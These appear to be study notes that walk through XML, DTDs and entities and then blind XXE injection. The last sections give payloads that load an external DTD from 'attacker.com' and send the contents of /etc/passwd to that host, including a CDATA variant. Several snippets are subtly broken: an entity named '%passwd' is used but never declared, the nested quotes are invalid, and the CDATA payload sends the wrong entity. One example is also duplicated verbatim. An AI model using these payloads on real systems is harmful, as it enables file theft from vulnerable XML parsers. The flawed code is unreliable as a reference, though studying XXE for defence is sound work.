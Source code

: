 # XML
* eXtensible Markup Language


* Sample XML 
```xml
<message>
    <to>Alice</to>
    <from>Bob</from>
    <subject>Test</subject>
    <body>Hello World</body>
</message>
```

## DTD
* Document Type Definition, defines the structure of an `XML` document. It is placed before the acutal `XML` content.


### Internal DTD
```xml
<?xml version="1.0"?>
<!DOCTYPE message[
    <!ELEMENT message (to,from,subject,body)>
    <!ELEMENT to (#PCDATA)>
    <!ELEMENT from (#PCDATA)>
    <!ELEMENT subject (#PCDATA)>
    <!ELEMENT body (#PCDATA)>
]>
<message>
    <to>Alice</to>
    <from>Bob</from>
    <subject>Test</subject>
    <body>Hello World</body>
</message>
```

* `<!DOCTYPE>`: the root element of this document is `message`
* `<!ELEMENT message>`: Each `message` element must contain these four elements: `to`, `from`, `subject`, `body`.
* `#PCDATA`: Parsed Character Data

### External DTD
```xml
<?xml version="1.0"?>
<!DOCTYPE message SYSTEM "message.dtd">
<message>
    <to>Alice</to>
    <from>Bob</from>
    <subject>Test</subject>
    <body>Hello World</body>
</message>
```
* The `DTD` of this xml file is imported from `message.dtd` with `SYSTEM` keyword.
* `SYSTEM` specifies the inclusion of an external file into `XML`, can be from `URI` or `URL`


## DTD Entities
* Entities are like variables, and they live inside `DTD` block. We can declare entities and use them later with `&` and `;` sysmbol before the entity name.
* They are always reference the enetity begin with `&` and end with `;`

### Internal DTD Entity
```xml
<!ENTITY email "some@email.com">
<!ENTITY author "Alice &email;">
<author>&author;</author>
```

Result `XML` data:
```
<author>Alice some@email.com</author>
```

### External DTD Entity
```xml
<!ENTITY author SYSTEM "http://example.com/entities.dtd">
<author>&author;</author>
```


### Parameter Entity, aka Embedded Entity
* We can define an `entity` with a entity definition. When `&outer` is called, it is parsed like `<!ENTITY inner 'My name is Alice'>`
```xml
<!ENTITY name "Alice">
<!ENTITY outer "<!ENTITY inner 'My name is &name;'>">
&outer;
```

* Another example
```xml
<!ENTITY name "Alice">
<!ENTITY outer "<!ENTITY inner 'My name is &name;'>">
&outer;

```
# Blind XXE injections
* Since we can't directly reference an Entity within an internal DTD, we have to make use an external DTD
```xml
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://attacker.com/evil.dtd">
<data>&send;</data>
```
* `evil.dtd`:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % wrapper "<!ENTITY send SYSTEM "http://attacker.com/?passwd=%passwd;">">
%wrapper;
```

# Blind XXE injection with file content containing `<`
* We will use `CDATA`, character data to bypass this.
* Anything between `<![CDATA[ ` and `]]>` will not be parsed by the XML parser
* `evil.dtd`:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>">
%wrapper;
<!ENTITY % wrapper_send "<!ENTITY send SYSTEM "http://attacker.com/?passwd=%wrapper;">">
%wrapper_send;
```


